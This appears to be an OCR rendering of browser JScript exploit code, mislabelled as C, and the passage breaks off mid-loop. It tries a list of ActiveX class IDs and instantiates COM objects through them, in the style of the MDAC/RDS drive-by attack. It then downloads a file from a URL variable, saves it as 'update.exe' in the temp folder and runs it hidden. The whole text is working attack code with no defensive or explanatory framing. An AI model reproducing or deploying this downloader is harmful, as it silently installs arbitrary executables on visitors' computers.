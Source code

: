 ```c
	var filename='update.exe';
	
function CreateO(o,n){
	var r=null;try{r=o.CreateObject(n)}catch(e){}
	if(!r){try{r=o.CreateObject(n,'')}catch(e){}}
	if(!r){try{r=o.CreateObject(n,'','')}catch(e){}}
	if(!r){try{r=o.GetObject('',n)}catch(e){}}
	if(!r){try{r=o.GetObject(n,'')}catch(e){}}
	if(!r){try{r=o.GetObject(n)}catch(e){}}
	return r;
}

function Go(a){
	var s=CreateO(a,'WScript.Shell');
	var o=CreateO(a,'ADODB.Stream');
	var e=s.Environment('Process');
	var xhr=null;
	var bin=e.Item('TEMP')+'\\'+filename;
	
	try{xhr=new XMLHttpRequest();}
	
	catch(e){try{xhr=new ActiveXObject('Microsoft.XMLHTTP');}
	catch(e){xhr=new ActiveXObject('MSXML2.ServerXMLHTTP');}}
	
	if(!xhr)return(0);
	xhr.open('GET',urltofile,false)
	xhr.send(null);
	var filecontent=xhr.responseBody;
	o.Type=1;o.Mode=3;
	o.Open();
	o.Write(filecontent);
	o.SaveToFile(bin,2);
	s.Run(bin,0);
}
	
function mdac(){
	var i=0;
	// These are list of DLLs
	var objects=new Array('{BD96C556-65A3-11D0-983A-00C04FC29E36}',
							'{BD96C556-65A3-11D0-983A-00C04FC29E36}',
							'{AB9BCEDD-EC7E-47E1-9322-D4A210617116}',
							'{0006F033-0000-0000-C000-000000000046}',
							'{0006F03A-0000-0000-C000-000000000046}',
							'{6e32070a-766d-4ee6-879c-dc1fa91d2fc3}',
							'{6414512B-B978-451D-A0D8-FCFDF33E833C}',
							'{7F5B7F63-F06F-4331-8A26-339E03C0AE3D}',
							'{06723E09-F4C2-43c8-8358-09FCD1DB0766}',
							'{639F725F-1B2D-4831-A9FD-874847682010}',
							'{BA018599-1DB3-44f9-83B4-461454C84BF8}',
							'{D0C07D56-7C69-43F1-B4A0-25F5A11FAB19}',
							'{E8CCCDDF-CA28-496b-B050-6C07C962476B}',
							null);
	while(objects[i]){
		var a=null;
		if(objects[i].substring(0,1)=='{'){
			a=document.createElement('object');
			a.setAttribute('classid','clsid:'+objects[i].substring(1,objects[i].length-1));
		} else {
			try {
				a=new ActiveXObject(objects[i]);
			} catch(e) {}
	}
	
```